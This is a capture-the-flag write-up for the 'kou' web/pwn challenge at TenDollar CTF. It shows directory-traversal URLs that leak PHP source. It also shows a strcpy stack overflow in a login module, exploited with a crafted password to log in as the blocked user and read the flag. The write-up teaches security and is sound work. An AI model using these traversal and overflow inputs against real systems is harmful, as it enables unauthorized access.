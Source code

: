 ```yaml
---
layout: post
title: "TenDollar CTF - kou writeup"
comments: true
description: "My Problem 'kou' writeup at TenDollar CTF 3rd."
keywords: "my_prob, web, pwn, lfi, overflow
---
```


## Information

Category : Web, Pwn

Solver : 7

Tag : LFI, Overflow

## Description

Author: @shpik

Eagle-Jump is black company?

Server Info: http://web2.tendollar.kr:10101/

## Exploit

It have 4 menu in this site. (੭ ᐕ)੭*⁾⁾

- Home
- Article
- Login
- Join

This site handles the page through the p parameter.

`http://web2.tendollar.kr:10101/?p=home`

p parameter is not allow wrapper and directory traversal.

There is a Secret Data in the Article menu.

If you read this, you will not get the contents with the message "You're not admin."

When you request article you can see that it is requested as f parameter.

`http://web2.tendollar.kr:10101/?p=view&f=First%20Article`

f parameter is allow directory traversal, but wrapper is not allowed.

Leak index.php.

`http://web2.tendollar.kr:10101/?p=view&f=../../var/www/html/index.php`

```html
<!-- index.php -->
<!DOCTYPE html>
<html>
<head>
	<title>Yagami Kou's Homepage</title>
	<link rel=stylesheet href="index.css">
</head>
<body>
	<?php
		@include_once('menu.php');
	?>
	<br>
	<?php
		$pageList = array(
			'home',
			'login',
			'loginchk',
			'logout',
			'view',
			'board',
			'join'
		);
		if(in_array($_GET['p'], $pageList)) {
		  @include_once($_GET['p'].'.php');
		} else {
		  @include_once('home.php');
		}		
	?>
</body>
</html>
```

Let's take a look at loginchk which seems to be important the pageList.

```html
<!-- loginchk.php -->
<?php
	$id = $_POST['id'];
	$pw = $_POST['pw'];
	if($id!='' && $pw!=''){
		if(preg_match('/kou/i',$id)){
			die('<script>alert("Don\'t login at kou.");history.back();</script>');
		}
		if(login($id,$pw)){
			$_SESSION['is_login'] = 1;
			$_SESSION['admin'] = 1;
			echo '<script>alert("Login Success.");location.href="?p=home";</script>';
		}else{
			echo '<script>alert("Login Fail.");history.back();</script>';
		}
	}else{
		echo '<script>alert("Login Fail.");history.back();</script>';
	}
?>
```

It is not allow login as "kou" in loginchk.php.

But, **login** function that verify id and password is not built-ins function.

Maybe, It is called by another modules.

```html
<!-- view.php -->
<?php
	$f = $_GET['f'];
	if(!is_array($f) && !is_null($f) && $f!=''){
//		$f = str_replace('../','', $f);
		if($f[strlen($f)-1]=='/'){
			$f[strlen($f)-1]=='\0';
		}
		if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==1){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}else if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==0){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre>You're not admin.</pre>
	</div>
<?php
		}else{
?>
	<div class="description">
		<p style="font-size: 20px;"><?=$f;?></p>
		<br><br>
		<?php
		if(preg_match('/kou\.so/i',$f)){
			echo 'Okay Here<br><div>'.file_get_contents('/var/www/modules/kou.so').'</div>';
		}
		?>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}

	}else{
		echo '<script>alert("No found.");history.back();</script>';
	}
?>
```

Next, see the view.php.

It seems that f parameter is being distributed to the page through **loadFile** function.

but, It is not built-ins function, too.

If you request kou.so with f parameter, you will see that you are giving the kou.so file.

Open it !

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/_posts/kou1.png)

**loadFile** function just open file using fopen function.

Next, I see the **login** function.

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/_posts/kou2.png)

It is verfying to input value(id, pw) using loginchk function.

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/_posts/kou3.png)

**loginchk** function is compare id and pw to "kou" and "1e0c6abede7ff7184c3cefe606f9760a".

but, id can't contain "kou" because of loginchk.php.

Vulnerability is **login function**.

```c
strcpy(_id, id);
v3 = strcpy(_pw, pw);
```

It copy input value to _id and _pw using strcpy.

```c
char _pw[32]; // [rsp+20h] [rbp-68h]
char _id[33]; // [rsp+40h] [rbp-48h]
```

If you look at stacks of _id and _pw, you can see _pw followed by _id.

And copy id, then copy pw, but strcpy don't check length.

It is occur **<u>stack overflow</u>**.

If pw is inputed by "1e0c6abede7ff7184c3cefe606f9760akou", then _id is "kou" and _pw is "1e0c6abede7ff7184c3cefe606f9760a".

So, you can login as kou.

Now when you log in with id = a, pw = 1e0c6abede7ff7184c3cefe606f9760akou on the login page, you can login as kou.

After login as kou, you can read Secret Data and get Flag!

```
Secret Data

退勤する前にFLAGを残していきます。
TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}
```



**FLAG :** TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}

